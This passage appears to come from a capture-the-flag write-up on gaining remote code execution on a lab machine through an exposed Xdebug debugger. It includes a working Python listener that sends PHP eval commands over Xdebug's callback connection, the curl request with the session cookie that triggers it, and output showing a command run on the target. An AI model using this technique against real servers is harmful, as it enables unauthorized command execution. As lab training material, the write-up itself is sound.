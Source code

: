 But for a more direct path to RCE / shell, we can take the manual route.
If you add a cookie `XDEBUG_SESSION=...`, the site will call back to you
on default port 9000, and you can pass php commands to it.

[This
blog](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)
describes how to do the attack, albeit in Chinese. There's a short
script he uses to interact, which simply listens on port 9000, receives
the connection, and then enters an infinite loop of reading input
commands from the command line, and sends them back formatted for
xdebug:



    #!/usr/bin/python2
    import socket

    ip_port = ('0.0.0.0',9000)
    sk = socket.socket()
    sk.bind(ip_port)
    sk.listen(10)
    conn, addr = sk.accept()

    while True:
        client_data = conn.recv(1024)
        print(client_data)

        data = raw_input('>> ')
        conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))



To test it out, I'll give Olympus a ping command, and use tcpdump to see
if it works.

With script running, use curl to trigger Xdebug:



    root@kali# curl http://10.10.10.83 -H "Cookie: XDEBUG_SESSION=wpOCvcWXx5"



Script gets callback. We can issue ping command:



    root@kali# ./exploit_xdebug.py
    494<?xml version="1.0" encoding="iso-8859-1"?>
    <init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www.md/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="5380" idekey="XDEBUG_ECLIPSE"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick
    Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
    >> system("ping -c 1 10.10.14.5")
    336<?xml version="1.0" encoding="iso-8859-1"?>
    <response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="1"><property type="string" size="61" encoding="base64"><![CDATA[cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw==]]></property></response>
    >>
